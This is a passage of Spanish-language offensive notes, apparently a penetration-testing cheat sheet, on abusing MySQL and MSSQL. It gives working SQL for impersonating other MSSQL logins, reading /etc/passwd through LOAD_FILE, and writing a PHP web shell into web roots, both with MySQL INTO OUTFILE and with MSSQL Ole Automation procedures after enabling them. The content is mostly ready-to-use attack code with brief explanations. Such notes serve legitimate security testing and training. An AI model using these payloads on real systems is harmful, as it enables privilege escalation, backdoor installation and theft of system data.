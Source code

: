 1. Identificar usuarios que podemos suplantar:
    ```sql
    SELECT DISTINCT b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
    GO
    ```
3. Suplantar usuario:
    ```sql
    EXECUTE AS LOGIN = 'nombre_usuario';
    GO
    ```
4. Revertir al usuario originall:
    ```sql
    REVERT;
    GO
    ```


## Escritura/lectura de Archivos

### MySQL
#### Variable `secure_file_priv`
Tanto para escritura como para lectura, la variable `secure_file_priv` nos indica si podemos realizar operaciones de lectura y escritura:
- **Sin contenido**: Podemos leer escribir en cualquier directorio
- **Con directorio como contenido**: Sólamente podemos importar/exportar archivos a ese directorio
- **Valor `null`**: El servidor deshabilita la subida/bajada de archivos
	```sql
	show variables like "secure_file_priv";
	```
#### Escritura
Escribir un archivo PHP (ejemplo para un shell web):

```sql
SELECT "<?php echo shell_exec($_GET['c']); ?>" INTO OUTFILE '/var/www/html/shell.php';
```
#### Lectura
```sql
SELECT LOAD_FILE('/etc/passwd');
```
### MSSQL
#### Escritura
##### Habilitar Automation Procedures
Para poder escribir en archivos debe estar habilitada esta opción (requiere permisos adminsitrativos)
```sql
sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
sp_configure 'Ole Automation Procedures', 1
GO
RECONFIGURE
GO
```
##### Crear un arhivo
```sql
DECLARE @OLE INT;
DECLARE @FileID INT;
EXEC sp_OACreate 'Scripting.FileSystemObject', @OLE OUT;
EXEC sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'C:\inetpub\wwwroot\webshell.php', 8, 1;
EXEC sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>';
```
